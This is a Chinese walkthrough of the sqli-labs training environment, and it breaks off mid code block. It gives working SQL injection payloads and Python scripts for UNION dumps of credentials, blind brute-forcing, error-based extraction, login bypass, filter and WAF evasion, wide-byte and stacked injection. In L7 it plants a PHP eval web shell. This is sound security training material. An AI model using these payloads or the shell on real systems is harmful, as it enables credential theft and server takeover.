









## 参考资料

- [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
- [详细sqli-labs（1-65）通关讲解](https://blog.csdn.net/dreamthe/article/details/123795302)
- [MySQL注入天书](https://www.cnblogs.com/lcamry/category/846064.html)

## 前言

这一套SQL注入实验环境每个Lab都有不同的注入点和注入方式，不过由于实验并没有明确的通关条件，本文将按照个人的理解进行分类总结。可能和部分Lab的设计初衷有所出入。

为了方便演示，定义`query_get`和`query_post`函数如下：

```python
import requests

base_url = "http://localhost/sqli-labs/"


def query_get(path, payload, **kwargs):
    url = base_url + f"{path}/{payload}"
    resp = requests.get(url, **kwargs)
    return resp


def query_post(path, **kwargs):
    url = base_url + f"{path}/"
    resp = requests.post(url, **kwargs)
    return resp
```

## 闭合：L1-L4

### 前言 & 笔记

这几个Lab是基础的SQL查询闭合。这部分Lab没有明确的通关条件，因此就以爆库为目标。

常用的一些信息收集语句：

- 查所有数据库：

    ```sql
    SELECT group_concat(schema_name) FROM information_schema.schemata
    ```

- 查数据库`security`中的表：

    ```sql
    SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='security'
    ```

- 查表`security.users`中的列：

    ```sql
    SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='security' AND table_name='users'
    ```

- 查表`security.users`中的`username`和`password`数据：

    ```sql
    SELECT group_concat(username),group_concat(password) FROM security.users
    ```

### L1

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

```python
payload = "?id=x' UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- "
```

<!-- @xprops width="100%" -->



### L2

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

```python
payload = "?id=99 UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- "
```

### L3

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

```python
payload = "?id=x') UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- "
```

### L4

```php
$id = $_GET['id'];
$id = '"' . $id . '"';
$sql = "SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

```python
payload = '?id=x") UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- '
```

## 盲注：L5-L10

### 前言 & 笔记

有些场景下，服务端不会返回SQL查询结果，此时需要用到盲注技术。常见的盲注技术有基于布尔的盲注等、基于时间的盲注、基于报错的盲注。

这一部分的Lab同样没有明确的通关条件，这里以查询`Angelina`用户的密码为目标：

```sql
SELECT password FROM security.users WHERE username='Angelina'
```

查询结果应为`I-kill-you`。

#### 布尔盲注

如果查询成功/失败（有结果/无结果）时服务端的响应有差异（比如页面内容不同、响应长度不同），就可以利用这种差异进行布尔盲注。这几个Lab的成功/失败查询的响应内容都有多多少少的差异，布尔盲注可以通杀。

以下的MySQL函数在盲注中非常有用：

- `substr(str, pos, len)`：从字符串`str`的第`pos`个字符开始，截取长度为`len`的子串。`pos`从1开始计数。

    ```sql
    SELECT substr("abcdef",1,3);          -- abc
    SELECT substr((SELECT "123456"),4,3); -- 456
    ```

- `ascii(ch)`：返回字符`ch`的ASCII码值，如果`ch`是字符串，则返回第一个字符的ASCII码值。

    ```sql
    SELECT ascii("A");   -- 65
    SELECT ascii("abc"); -- 97
    ```

#### 时间盲注

在页面回显内容完全没有差异的情况下，就需要用时间盲注。时间盲注利用下面的MySQL函数：

- `sleep(sec)`：让数据库休眠指定的秒数。

    ```sql
    SELECT sleep(3);
    ```

- `if(cond, exp_true, exp_false)`：如果条件`cond`为真，则返回`exp_true`，否则返回`exp_false`。

    ```sql
    SELECT if(1+1=2,"Yes","No"); -- Yes
    SELECT if(11>45,sleep(1),4); -- 4
    ```

> 当发现服务端延迟时间远大于`sleep(...)`设置的延迟参数时，可能是在当前语法中`sleep`函数会对每一行数据都调用一次。例如：
>
> ```sql
> SELECT id FROM users WHERE sleep(1);
> ```

#### 报错注入

如果服务端会将数据库报错信息返回给客户端，就可以利用报错信息进行注入，思路是让我们想要的查询结果作为报错信息的一部分返回。（此时盲注就不再是盲注了 ^v^）

报错注入常用的MySQL函数有：

- `extractvalue(xml_string, xpath)`：该函数用于从XML文档中提取数据。如果`xpath`不合法，报错中会出现`xpath`的内容。

    ```sql
    extractvalue(null,concat(0x7e,(SELECT 'anything'),0x7e))
    ```

    通常插入一个`~`（`0x7e`）分隔符，一方面方便定位报错信息，另一方面是使用Xpath不支持的字符确保稳定触发报错。

- `updatexml(xml_string, xpath, new_xml)`

    ```sql
    updatexml(null,concat(0x7e,(SELECT 'anything'),0x7e),null)
    ```

### L5

以L5为例，思路是根据回显长度不同逐字符爆破出查询结果：

<!-- @xprops highlightLines="5-6,11-14" -->

```python
from query import *

# target: SELECT password FROM security.users WHERE username='Angelina'

print(len(query_get("Less-5", "?id=1' AND 1=0 -- ").text))  # 720
print(len(query_get("Less-5", "?id=1' AND 1=1 -- ").text))  # 704


def brute_force(pos):
    for i in range(32, 127):
        payload = f"?id=1' AND ascii(substr((SELECT password FROM security.users WHERE username='Angelina'),{pos},1))={i} -- "
        resp = query_get("Less-5", payload)
        if len(resp.text) == 704:
            return i
    return None


password = ""
while True:
    ch = brute_force(len(password) + 1)
    if ch is None:
        break
    print("[*] found", chr(ch))
    password += chr(ch)

print(password)  # I-kill-you
```

### L6

其他几个如法炮制，只需要变一下判断条件和闭合方式：

```python
print(len(query_get("Less-6", '?id=1" AND 1=0 -- ').text))  # 720
print(len(query_get("Less-6", '?id=1" AND 1=1 -- ').text))  # 702


def brute_force(pos):
    for i in range(32, 127):
        payload = f'?id=1" AND ascii(substr((SELECT password FROM security.users WHERE username="Angelina"),{pos},1))={i} -- '
        resp = query_get("Less-6", payload)
        if len(resp.text) == 702:
            return i
    return None
```

### L7

L7刚好两种响应的长度是一样的，所以通过内容判断：

```html
<font color= "#FFFF00">You have an error in your SQL syntax</font></font> </div></br></br></br><center>
<font color= "#FFFF00">You are in.... Use outfile......<br></font></font> </div></br></br></br><center>
```

```python
print("You are in" in query_get("Less-7", "?id=1')) AND 1=0 -- ").text)  # False
print("You are in" in query_get("Less-7", "?id=1')) AND 1=1 -- ").text)  # True


def brute_force(pos):
    for i in range(32, 127):
        payload = f"?id=1')) AND ascii(substr((SELECT password FROM security.users WHERE username='Angelina'),{pos},1))={i} -- "
        resp = query_get("Less-7", payload)
        if "You are in" in resp.text:
            return i
    return None
```

### L8

```python
print(len(query_get("Less-8", "?id=1' AND 1=0 -- ").text))  # 722
print(len(query_get("Less-8", "?id=1' AND 1=1 -- ").text))  # 706


def brute_force(pos):
    for i in range(32, 127):
        payload = f"?id=1' AND ascii(substr((SELECT password FROM security.users WHERE username='Angelina'),{pos},1))={i} -- "
        resp = query_get("Less-8", payload)
        if len(resp.text) == 706:
            return i
    return None
```

### L9

```python
print(len(query_get("Less-9", "?id=1' AND 1=0 -- ").text))  # 744
print(len(query_get("Less-9", "?id=1' AND 1=1 -- ").text))  # 707


def brute_force(pos):
    for i in range(32, 127):
        payload = f"?id=1' AND ascii(substr((SELECT password FROM security.users WHERE username='Angelina'),{pos},1))={i} -- "
        resp = query_get("Less-9", payload)
        if len(resp.text) == 707:
            return i
    return None
```

### L10

```python
print(len(query_get("Less-10", '?id=1" AND 1=0 -- ').text))  # 746
print(len(query_get("Less-10", '?id=1" AND 1=1 -- ').text))  # 709


def brute_force(pos):
    for i in range(32, 127):
        payload = f'?id=1" AND ascii(substr((SELECT password FROM security.users WHERE username="Angelina"),{pos},1))={i} -- '
        resp = query_get("Less-10", payload)
        if len(resp.text) == 709:
            return i
    return None
```

### 补充：L5-L6报错注入

L5和L6开启了报错回显，也可以使用报错注入，以L5为例：

```python
payload = "?id=1' OR updatexml(null,concat(0x7e,(SELECT password FROM security.users WHERE username='Angelina'),0x7e),null) -- "
```

<!-- @xprops width="100%" -->



### 补充：L7文件读写

> #### 前置准备（攻击条件）
>
> 需要开启`secure_file_priv`，其默认值为`NULL`：
>
> ```text
> mysql> show variables like 'secure_file_priv';
> +------------------+-------+
> | Variable_name    | Value |
> +------------------+-------+
> | secure_file_priv | NULL  |
> +------------------+-------+
> ```
>
> 我使用的环境是PHPStudy，修改`PHPStudy\Extensions\MySQL5.7.26\my.ini`文件：
>
> ```text
> [mysqld]
> ...
> secure_file_priv=
> ```
>
> 在`[mysqld]`下添加`secure_file_priv=`，然后重启MySQL服务。

<!-- @xprops background="blue" -->

> - 读文件（如果有回显）：
>
>     ```sql
>     ... UNION SELECT 1,2,hex(load_file('/path/to/file')) --
>     ```
>
> - 写入文件（MySQL限制`INTO OUTFILE`不能覆盖已存在的文件）：
>
>     ```sql
>     ... UNION SELECT 1,2,0x68656c6c6f INTO OUTFILE '/path/to/file' --
>     ```
>
>     这会创建一个`/path/to/file`文件：
>
>     ```text
>     1   2   hello
>     ```

写入一个木马（需要知道`WWW`的路径）：

```python
root = r"C:\\path\\to\\WWW\\sqli-labs\\Less-7\\"

shell = '<?php @eval($_GET["cmd"]); ?>'
shell_hex = "0x" + shell.encode().hex()
shell_path = root + "shell.php"

payload = f"?id=x')) UNION SELECT '','',{shell_hex} INTO OUTFILE '{shell_path}' -- "
print(payload)
# ?id=x')) UNION SELECT '','',0x3c3f70687020406576616c28245f4745545b22636d64225d293b203f3e INTO OUTFILE '...' --

query_get("Less-7", payload)
```

<!-- @xprops width="100%" -->



## 登陆框：L11-L16

### 前言 & 笔记

这几个Lab是通过登陆框进行SQL注入，这里以成功绕过登陆作为通关条件。

### L11

```python
payload = "x' OR 1=1 -- "
resp = query_post("Less-11", data={"uname": payload, "passwd": "x"})
```

### L12

```python
payload = 'x") OR 1=1 -- '
resp = query_post("Less-12", data={"uname": payload, "passwd": "x"})
```

### L13

```python
payload = "x') OR 1=1 -- "
resp = query_post("Less-13", data={"uname": payload, "passwd": "x"})
```

### L14

```python
payload = 'x" OR 1=1 -- '
resp = query_post("Less-14", data={"uname": payload, "passwd": "x"})
```

### L15

L15关闭了报错回显，因此不能直接得到闭合方式，考虑使用时间盲注探测：

```python
from query import *
import requests

payloads = [
    'x"   OR sleep(10) -- ',
    'x")  OR sleep(10) -- ',
    'x")) OR sleep(10) -- ',
    "x'   OR sleep(10) -- ",
    "x')  OR sleep(10) -- ",
    "x')) OR sleep(10) -- ",
]

for payload in payloads:
    try:
        query_post("Less-15", data={"uname": payload, "passwd": "x"}, timeout=3)
    except requests.exceptions.Timeout:
        print("[*] Vulnerable payload:", payload)
# [*] Vulnerable payload: x'   OR sleep(10) --

payload = "x' OR 1=1 -- "
resp = query_post("Less-15", data={"uname": payload, "passwd": "x"})
print(resp.text)
```

### L16

L16也关闭了报错回显，同样的时间盲注探测方式，闭合方式为`")`。

## 报错注入应用：L17-L22

### L17

L17需要输入一个已经存在的账户名才能进入后面的逻辑，这里使用`admin`。

```php
$update = "UPDATE users SET password='$passwd' WHERE username='$row1'";
```

```python
payload = "x' OR updatexml(null,concat(0x7e,(SELECT version()),0x7e),null) -- "
resp = query_post("Less-17", data={"uname": "admin", "passwd": payload})
```

注意这关如果改掉了某个账户的密码，可能会影响后面的Lab。

### L18

L18需要一对正确的账密才能进入后面的逻辑，这里使用`admin:admin`。

```php
$uagent = $_SERVER['HTTP_USER_AGENT'];
// ...
$insert = "INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

```python
payload = "x', 0, updatexml(null,concat(0x7e,(SELECT version()),0x7e),null)) #"
resp = query_post("Less-18", data={"uname": "admin", "passwd": "admin"}, headers={"User-Agent": payload})
```

`payload`通过`User-Agent`Header传入，发现在服务端解析时会删掉末尾的空格，而`--`注释符后面必须跟一个空格才能生效，因此这里使用`#`作为注释符。

### L19

```php
$referrer = $_SERVER['HTTP_REFERER'];
// ...
$insert = "INSERT INTO `security`.`referers` (`referers`, `ip_address`) VALUES ('$referrer', '$IP')";
```

注：作者原本写的是`$uagent = $_SERVER['HTTP_REFERER'];`，这里把变量名改过来了。

```python
payload = "x', updatexml(null,concat(0x7e,(SELECT version()),0x7e),null)) #"
resp = query_post("Less-19", data={"uname": "admin", "passwd": "admin"}, headers={"Referer": payload})
```

### L20

从Cookie注入：

```php
$cookee = $_COOKIE['uname'];
$sql = "SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
```

```python
payload = "x' OR updatexml(null,concat(0x7e,(SELECT version()),0x7e),null) #"
resp = query_post("Less-20", data={"uname": "admin", "passwd": "admin"}, cookies={"uname": payload})
```

### L21

同样是从Cookie注入，但是多了一层Base64。

```php
$cookee = $_COOKIE['uname'];
$cookee = base64_decode($cookee);
$sql = "SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
```

```python
payload = "x') OR updatexml(null,concat(0x7e,(SELECT version()),0x7e),null) #"
payload = base64.b64encode(payload.encode()).decode()
resp = query_post("Less-21", data={"uname": "admin", "passwd": "admin"}, cookies={"uname": payload})
```

### L22

闭合方式为双引号。

```php
$cookee = $_COOKIE['uname'];
$cookee = base64_decode($cookee);
$cookee1 = '"' . $cookee . '"';
$sql = "SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
```

```python
payload = 'x" OR updatexml(null,concat(0x7e,(SELECT version()),0x7e),null) #'
payload = base64.b64encode(payload.encode()).decode()
resp = query_post("Less-22", data={"uname": "admin", "passwd": "admin"}, cookies={"uname": payload})
```

## 过滤与绕过：L23-28

### L23

```php
$id = $_GET['id'];
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

注释符被过滤了，那就手动构造一个拼接后语法合法的SQL语句：

```python
payload = "?id=x' UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users WHERE '1'='1"
```

<!-- @xprops width="100%" -->



### L24：二次注入

L24中所有直接注入点的输入都经过`mysql_escape_string`或`mysql_real_escape_string`的过滤。

注意注册新用户的逻辑：

```php
$username = mysql_escape_string($_POST['username']);
// ...
$sql = "INSERT INTO users (username, password) VALUES (\"$username\", \"$pass\")";
```

如果注册用户的用户名为`admin' #`（密码为`123`），在经过`mysql_escape_string`转义后变成`admin\' #`，拼接到`$sql`中变成：

```sql
INSERT INTO users (username, password) VALUES ("admin\' #", "123")
```

而这条语句执行后，插入到数据库的用户名中，对单引号的转义被还原：



在登录后，服务端设置`$_SESSION["username"]`为用户名，二次注入的注入点发生在修改密码功能：

<!-- @xprops highlightLines="1,6" -->

```php
$username = $_SESSION["username"];
$curr_pass = mysql_real_escape_string($_POST['current_password']);
$pass = mysql_real_escape_string($_POST['password']);
$re_pass = mysql_real_escape_string($_POST['re_password']);
if($pass==$re_pass) {
    $sql = "UPDATE users SET password='$pass' WHERE username='$username' AND password='$curr_pass'";
    // ...
}
```

当用以下表单参数修改密码时：

```text
current_password    xxx
password            123
re_password         123
```

服务端实际执行的SQL语句为：

```sql
UPDATE users SET password='123' WHERE username='admin' #' AND password='xxx'
```

此时成功在不知道`admin`用户原密码的情况下，将其密码修改为`123`。



### L25

过滤`or`和`and`，可以用`||`和`&&`绕过。注意我们想查询的列`password`恰好也包含了`or`，可以双写为`passwoorrd`绕过。

```python
payload = "?id=x' UNION SELECT 0,group_concat(username),group_concat(passwoorrd) FROM security.users -- "
```

### L25a

```python
payload = "?id=99 UNION SELECT 0,group_concat(username),group_concat(passwoorrd) FROM security.users -- "
```

### L26

```php
function blacklist($id)
{
    $id = preg_replace('/or/i', "", $id);       // strip out OR (non case sensitive)
    $id = preg_replace('/and/i', "", $id);      // Strip out AND (non case sensitive)
    $id = preg_replace('/[\/\*]/', "", $id);    // strip out /*
    $id = preg_replace('/[--]/', "", $id);      // Strip out --
    $id = preg_replace('/[#]/', "", $id);       // Strip out #
    $id = preg_replace('/[\s]/', "", $id);      // Strip out spaces
    $id = preg_replace('/[\/\\\\]/', "", $id);  // Strip out slashes
    return $id;
}
$id = $_GET['id'];
$id = blacklist($id);
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

绕过`or`和注释的思路和之前一样；关于空白符过滤，这里测试下来发现PHP 5.3.29（环境为Windows）中`preg_match`的`\s`不会匹配字符`\x0B (Vertical Tab)`。

```python
payload = "?id=x' UNION SELECT 0,group_concat(username),group_concat(passwoorrd) FROM security.users WHERE '1'='1"
payload = payload.replace(" ", "%0b")
```

### L26a

```python
payload = "?id=x') UNION SELECT 0,group_concat(username),group_concat(passwoorrd) FROM security.users WHERE ('1'='1"
payload = payload.replace(" ", "%0b")
```

### L27

大小写敏感的关键字过滤，用任意一种大小写变形绕过即可。

```php
function blacklist($id)
{
    $id = preg_replace('/[\/\*]/', "", $id);   // Strip out /*
    $id = preg_replace('/[--]/', "", $id);     // Strip out --.
    $id = preg_replace('/[#]/', "", $id);      // Strip out #.
    $id = preg_replace('/[ +]/', "", $id);     // Strip out spaces.
    $id = preg_replace('/union/s', "", $id);   // Strip out union
    $id = preg_replace('/select/s', "", $id);  // Strip out select
    $id = preg_replace('/UNION/s', "", $id);   // Strip out UNION
    $id = preg_replace('/SELECT/s', "", $id);  // Strip out SELECT
    $id = preg_replace('/Union/s', "", $id);   // Strip out Union
    $id = preg_replace('/Select/s', "", $id);  // Strip out select
    return $id;
}
$id = $_GET['id'];
$id = blacklist($id);
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

```python
payload = "?id=x' UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users WHERE '1'='1"
payload = payload.replace(" ", "%0b")
payload = payload.replace("UNION", "UNiON")
payload = payload.replace("SELECT", "SEleCT")
```

### L27a

```python
payload = '?id=x" UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users WHERE "1"="1'
payload = payload.replace(" ", "%0b")
payload = payload.replace("UNION", "UNiON")
payload = payload.replace("SELECT", "SEleCT")
```

### L28

注意`%0b`绕过了正则`\s`的判断。

```php
function blacklist($id)
{
    $id = preg_replace('/[\/\*]/', "", $id);           //strip out /*
    $id = preg_replace('/[--]/', "", $id);             //Strip out --.
    $id = preg_replace('/[#]/', "", $id);              //Strip out #.
    $id = preg_replace('/[ +]/', "", $id);             //Strip out spaces.
    $id = preg_replace('/union\s+select/i', "", $id);  //Strip out UNION & SELECT.
    return $id;
}
$id = $_GET['id'];
$id = blacklist($id);
$sql = "SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

```python
payload = "?id=x') UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users WHERE ('1'='1"
payload = payload.replace(" ", "%0b")
```

### L28a

过滤条件跟L28比变少了，只剩这一个：

```php
$id = preg_replace('/union\s+select/i', "", $id);
```

双写过滤的思路：

```python
payload = "?id=x') UNION UNION SELECT SELECT 0,group_concat(username),group_concat(password) FROM security.users WHERE ('1'='1"
```

## WAF：L29-L31

这三个Lab只有闭合方式不一样，核心思路是一样的，因此放到一起说。

服务端模拟了一个HPP`(HTTP Parameter Pollution)`的场景：

<!-- @xprops highlightLines="34-35,37-38" -->

```php
<?php

// WAF implementation with a whitelist approach, only allows input to be numeric.
function whitelist($input)
{
    $match = preg_match("/^\d+$/", $input);
    if ($match) {
        // ... input is valid
    } else {
        // ... input is invalid
        header("Location: hacked.php");
    }
}

// The function below immitates the behavior of parameters when subject to HPP (HTTP Parameter Pollution).
function java_implementation($query_string)
{
    $q_s = $query_string;
    $qs_array = explode("&", $q_s);
    foreach ($qs_array as $key => $value) {
        $val = substr($value, 0, 2);
        if ($val == "id") {
            $id_value = substr($value, 3, 30);
            return $id_value;
            echo "<br>";
            break;
        }
    }
}

// ...

$qs = $_SERVER["QUERY_STRING"];
$id1 = java_implementation($qs);
whitelist($id1);

$id = $_GET["id"];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result = mysql_query($sql);
?>
```

`java_implementation`模拟了一个存在漏洞的WAF的行为，当传入的参数重复时（`?id=1&id=2`），WAF取第一个参数值`1`进行检查，而最后一个参数值`2`会被用于后续的SQL查询。

三个Lab只有闭合方式不一样，`payload`依次为：

```python
payload = "?id=1&id=x' UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- "
```

```python
payload = '?id=1&id=x" UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- '
```

```python
payload = '?id=1&id=x") UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- '
```

注意这三个Lab使用`login.php`文件。

## 宽字节注入：L32-L37

### 前言 & 笔记

宽字节注入需要服务端使用了某些特定的字符集（如GBK）来解析请求参数，利用服务器解析两个字节的特性"吃掉"一个转义字符。

具体来说，L32-L37服务端都设置了：

```php
mysql_query("SET NAMES gbk");
```

同时服务端对输入的`'`和`\`都进行了转义。当需要闭合一个单引号时，考虑对服务器输入`%df%27`：

<table>
<tr>
<th></th>
<th>Byte 1</th>
<th>Byte 2</th>
<th>Byte 3</th>
</tr>
<tr>
<td>输入</td>
<td><code>0xdf</code></td>
<td><code>0x27</code> (<code>'</code>)</td>
<td></td>
</tr>
<tr>
<td>经过服务端转义</td>
<td><code>0xdf</code></td>
<td><code>0x5c</code> (<code>\</code>)</td>
<td><code>0x27</code> (<code>'</code>)</td>
</tr>
<tr>
<td>SQL解析</td>
<td colspan="2"><code>0xdf5c</code> (<code>運</code>)</td>
<td><code>0x27</code> (<code>'</code>)</td>
</tr>
</table>

宽字节注入就是利用GBK编码将两个字节（`0xdf`，`0x5c`）解析为一个汉字字符（`運`），从而"吃掉"了转义字符（`\`），使得后续的单引号得以闭合。

<!-- @xprops filterDarkTheme -->



很多文章中的例子都使用`%df`进行注入，实际上这只是众多选择中的一个。GBK编码范围如下图所示，只要第一个字节在编码范围中就可以了。

<!-- @xprops filterDarkTheme -->



### L32、L33、L36

服务端用了不同的转义函数（`preg_replace`、`addslashes`、`mysql_real_escape_string`），但是注入方式相同：

```python
payload = "?id=%df' UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- "
```

### L34、L37

同样是服务端用了不同的转义函数（`addslashes`和`mysql_real_escape_string`），但不影响注入方式：

```python
payload = "%df' OR 1=1 -- "
resp = query_post(
    "Less-34", # "Less-37"
    data=f"uname={payload}&passwd=x",
    headers={"Content-Type": "application/x-www-form-urlencoded"}
)
```

### L35

```php
$sql = "SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

这题的意思是，既然服务端没有给`id`加引号，那我们就不需要闭合引号了，也没必要用宽字节注入了：

```python
payload = "?id=99 UNION SELECT 0,group_concat(username),group_concat(password) FROM security.users -- "
```

## 堆叠注入：L38-L45

### 前言 & 笔记

前面的所有Lab都是基于单条SQL语句的注入，服务端使用`mysql_query($sql);`执行SQL语句。

而堆叠注入则是利用数据库支持在同一个请求中执行多条SQL语句的特性进行注入，不同语句之间用分号`;`分隔。这需要用到`mysqli_multi_query`等函数。

下面是来自PHP手册的一段代码示例：

```php
<?php
mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
$link = mysqli_connect("localhost", "my_user", "my_password", "world");

$query = "SELECT CURRENT_USER();";
$query .= "SELECT Name FROM City ORDER BY ID LIMIT 20, 5";

/* execute multi query */
mysqli_multi_query($link, $query);
do {
    /* store the result set in PHP */
    if ($result = mysqli_store_result($link)) {
        while ($row = mysqli_fetch_row($result)) {
            printf("%s\n", $row[0]);
        }
    }
    /* print divider */
    if (mysqli_more_results($link)) {
        printf("-----------------\n");
    }
} while (mysqli_next_result($link));
?>
```

当堆叠注入漏洞存在时，我们能够在注入点后追加任意SQL语句而不受限于原有查询的结构，从而实现更强大的功能。

这一部分的Lab我们以修改`Dumb`用户（`id=1`）的密码作为目标，也就是执行如下SQL语句：

```sql
UPDATE security.users SET password='hacked' WHERE id='1';
```

### L38-L41

四个Lab只有闭合方式不同。

```python
payload = "?id=1';  UPDATE security.users SET password='hacked-L38' WHERE id='1'; -- "
payload = "?id=1;   UPDATE security.users SET password='hacked-L39' WHERE id='1'; -- "
payload = "?id=1'); UPDATE security.users SET password='hacked-L40' WHERE id='1'; -- "
payload = "?id=1;   UPDATE security.users SET password='hacked-L41' WHERE id='1'; -- "
```

### L42-L45

L44和L45分别是L42和L43的盲注版本。

```python
payload = "x'; UPDATE security.users SET password='hacked-L42' WHERE id='1'; -- "
resp = query_post("Less-42/login.php", data={"login_user": "x", "login_password": payload})
```

```python
payload = "x'); UPDATE security.users SET password='hacked-L43' WHERE id='1'; -- "
resp = query_post("Less-43/login.php", data={"login_user": "x", "login_password": payload})
```

```python
payload = "x'; UPDATE security.users SET password='hacked-L44' WHERE id='1'; -- "
resp = query_post("Less-44/login.php", data={"login_user": "x", "login_password": payload})
```

```python
